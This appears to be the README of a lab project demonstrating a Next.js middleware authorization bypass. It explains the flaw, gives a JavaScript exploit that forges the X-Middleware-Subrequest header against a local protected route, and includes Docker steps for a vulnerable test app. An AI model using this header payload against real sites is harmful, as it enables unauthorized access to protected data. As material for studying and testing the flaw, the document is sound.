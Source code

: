 # Next.js Middleware Authorization Bypass PoC

This project demonstrates an **Authorization Bypass vulnerability in Next.js Middleware**, as described in [ProjectDiscovery Blog](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass).

## 📝 Vulnerability Summary

Next.js Middleware is a powerful feature to process requests at the edge before reaching the application logic. However, if the `X-Middleware-Subrequest` header is not properly validated, it can lead to **authentication and authorization bypass**.

### Root Cause:

- Middleware relies on the `X-Middleware-Subrequest` header to determine internal subrequests.
- An attacker can forge this header to trick the Middleware into skipping critical checks (such as authentication).

### Impact:

- Unauthorized access to protected routes and sensitive data.
- Bypassing authentication mechanisms implemented via Middleware.

## 🚀 Proof of Concept (PoC)

The following JavaScript snippet demonstrates how an attacker can bypass the Middleware protections:

```javascript
(function () {
  var iframe = document.createElement("iframe");
  iframe.style.display = "none";
  iframe.src = "http://localhost:3000/protected-route";
  document.body.appendChild(iframe);
  iframe.onload = function () {
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "http://localhost:3000/protected-route", true);
    xhr.setRequestHeader("X-Middleware-Subrequest", "middleware:middleware:middleware:middleware:middleware");
    xhr.onreadystatechange = function () {
      if (xhr.readyState === 4) {
        if (xhr.status === 200) {
          console.log("%c[+] Middleware Bypassed! Response Loaded Below:", "color: green;");
          console.log(xhr.responseText);
          var newWin = window.open();
          newWin.document.write(xhr.responseText);
        } else {
          console.error("[-] Bypass Failed. Status:", xhr.status);
        }
      }
    };
    xhr.send();
  };
})();
```

### Explanation:

- Loads the protected route in a hidden iframe to establish a valid origin context.
- Sends an XMLHttpRequest with a crafted `X-Middleware-Subrequest` header.
- If the bypass is successful, it logs and displays the response content.

## 🐳 Running the Vulnerable App (Docker)

Follow these steps to run the vulnerable Next.js application:

### 1. Build the Docker image:

```bash
docker build -t nextjs-middleware-bypass .
```

### 2. Run the Docker container:

```bash
docker run -p 3000:3000 nextjs-middleware-bypass
```

### 3. Access the application at:

```
http://localhost:3000
```

## 🔗 References

- [ProjectDiscovery Blog — Next.js Middleware Authorization Bypass](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass)

## ⚠️ Disclaimer

This project is intended for **educational purposes only**. Unauthorized exploitation of systems is illegal. Always ensure you have proper authorization before performing security testing.

